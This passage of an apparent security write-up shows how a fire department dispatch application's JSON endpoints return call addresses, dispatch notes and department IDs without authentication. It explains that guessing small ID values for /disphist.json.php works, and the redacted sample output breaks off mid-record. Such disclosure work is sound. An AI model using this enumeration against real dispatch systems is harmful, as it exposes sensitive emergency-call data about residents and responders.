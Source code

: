 And just like that we have queried and pulled data from these endpoints without authenticating at all! There is one pesky problem with this endpoint though, it does want a fdid parameter to identify the fire department to look for. That data is given to us in the initial registration and login, but how would we get that without a valid account? Well lucky us, there's another endpoint <b>/disphist.json.php</b> that can give us just that information! In practical use, this endpoint is meant to be used to view the details about a specific call. Providing this endpoint a <b>nfirsmainid</b> and a <b>dispcallid</b> will get us back the call address, nature of the call, units activity, dispatch notes and most importantly, the <b>fdid</b>! Now you might wonder how will we know what values to pass to this endpoint? I'm glad you asked; we can simply pass a few arbitrary numbers such as 1, 1000, 4000, etc. until we hit a valid result. In practice this took 2 attempts as I tried 1 and 1000. See below for the heavily redacted output from hitting this endpoint:


```json
[
    {
        "IPADDRESS":  "",
        "DISPCALLID":  "1000",
        "DATETIMESTAT":  "02/19/2009 13:39:43",
        "ADDRESS":  "REDACTED",
        "DISPHISTID":  "10990",
        "NARR":  "",
        "MOBUNIT":  "",
        "MOBALL":  "",
        "DISPSTATCODEID":  "13",
        "UNITNUM":  "",
        "DISPSTATCODEDESCR":  "End of Alarm",
        "SORTORD":  "0",
        "NFIRSMAINID":  "0",
        "FDID":  "",
        "SECID":  "0",
        "DISPSTATCODECODE":  "EOA",
        "SOURCE":  "",
        "DISPAPPID":  "0",
        "OPENKIOSK":  "",
        "CLOSEKIOSK":  "",
        "KIOSKSTATCODETIMEOUT":  "0"
    },
    {
        "IPADDRESS":  "",
        "DISPCALLID":  "1000",
        "DATETIMESTAT":  "02/19/2009 13:39:40",
        "ADDRESS":  "REDACTED",
        "DISPHISTID":  "10989",
        "NARR":  "",
        "MOBUNIT":  "Y",
        "MOBALL":  "Y",
        "DISPSTATCODEID":  "6",
        "UNITNUM":  "VEHICLE_IDENTIFIER",
        "DISPSTATCODEDESCR":  "In Service",
        "SORTORD":  "7",
        "NFIRSMAINID":  "111",
        "FDID":  "00000",
        "SECID":  "0",
        "DISPSTATCODECODE":  "28",
        "SOURCE":  "",
        "DISPAPPID":  "9",
        "OPENKIOSK":  "",
        "CLOSEKIOSK":  "",
        "KIOSKSTATCODETIMEOUT":  "0"
    },
    {
        "IPADDRESS":  "",
        "DISPCALLID":  "1000",
        "DATETIMESTAT":  "02/19/2009 13:34:44",
```
